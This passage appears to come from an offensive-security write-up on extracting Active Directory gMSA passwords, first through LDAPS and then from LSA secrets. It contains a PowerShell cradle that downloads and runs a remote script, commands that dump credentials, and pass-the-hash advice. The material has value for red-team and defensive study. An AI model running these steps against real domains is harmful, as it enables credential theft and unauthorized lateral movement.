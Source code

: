 ![0f07fd2d42f4e40585af442a921fc6f3.png](/_resources/0f07fd2d42f4e40585af442a921fc6f3.png)

If LDAPS is supported the script will calculate NT hashes and cryptographic keys for us:

![eb91f29755d188616331a54e45f5944c.png](/_resources/eb91f29755d188616331a54e45f5944c.png)

Of course these can be used to pass the hash like usual:

![44825aee273958668ecf70d85c66634c.png](/_resources/44825aee273958668ecf70d85c66634c.png)

Yet another option if we want to run code from a domain joined machine without installing PowerShell modules is [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader), a C# program also available wrapped in a [PowerShell script](https://github.com/ricardojba/Invoke-GMSAPasswordReader) we can load in memory with a cradle:
```powershell
IEX(IWR 'http://192.168.0.222/Invoke-GMSAPasswordReader.ps1'
Invoke-GMSAPasswordReader -Command "--AccountName GMSA_ADCS"
```

![cd9535cd2fed7688bfc3d37e0c827e95.png](/_resources/cd9535cd2fed7688bfc3d37e0c827e95.png)

---

## gMSA Password Retrieval #2: LSA Secrets

If we have access as SYSTEM on the hosts where a gMSA is installed we can extract the clear text password from the LSA secrets, instead of requesting it from the DC. Windows stores the password here in case it needs to start the associated service while the DC cannot be contacted.

[Nestori Syynimaa](https://aadinternals.com/post/gmsa/) discovered that gMSA passwords are stored in `HKLM\SECURITY\Policy\Secrets` inside keys prefixed with `_SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_` and followed by a HMAC SHA256 hash calculated from the uppercase domain and account name of the account:

![688d1d46656ab674a1014e653586e2a2.png](/_resources/688d1d46656ab674a1014e653586e2a2.png)

His [AADInternals](https://github.com/Gerenios/AADInternals) module can not only obtain the passwords from LSA but also print the account they belong to, useful if there is more than one in the same host because the LSA secrets don't seem to store the gMSA name but only the password:
```powershell
Get-AADIntLSASecrets -AccountName "its-piemonte\GMSA_USR1"
```

![ffaf1daa68fdaaeb195ed6154b2d3318.png](/_resources/ffaf1daa68fdaaeb195ed6154b2d3318.png)

We have both the clear-text password (as long as our console can read UTF-16) and the NT hash in the `MD4Txt` field.

If we don't want to install AADInternals on the host we can use other LSA secrets dumping options like impacket's secretsdump and mimikatz, but we won't be able to see the account they belong to and we have to make do with the hex representation:

![d9f318191f2159e68ef476a9ec3bae72.png](/_resources/d9f318191f2159e68ef476a9ec3bae72.png)
